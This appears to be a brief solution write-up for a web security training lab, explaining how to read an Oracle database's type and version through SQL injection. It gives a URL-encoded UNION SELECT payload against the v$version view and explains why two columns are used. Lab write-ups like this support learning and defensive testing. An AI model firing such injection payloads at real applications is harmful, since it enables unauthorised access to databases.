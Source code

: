 ## SQL injection attack, querying the database type and version on Oracle

The lab asks to retreive the version and type of the Oracle DB in this format
```
Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production, PL/SQL Release 11.2.0.2.0 - Production, CORE 11.2.0.2.0 Production, TNS for Linux: Version 11.2.0.2.0 - Production, NLSRTL Version 11.2.0.2.0 - Production
```

The categories are retreiving 2 data `Title` and `Paragraph` with the content, which indicates that there are 2 columns being query. For the solution inject the next sql code:

```sql
 %27+UNION+SELECT+null,banner+FROM+v$version--
```

Injecting a union query with the `banner` which retrieves `type` and `version` of the Oracle database `v$version`. 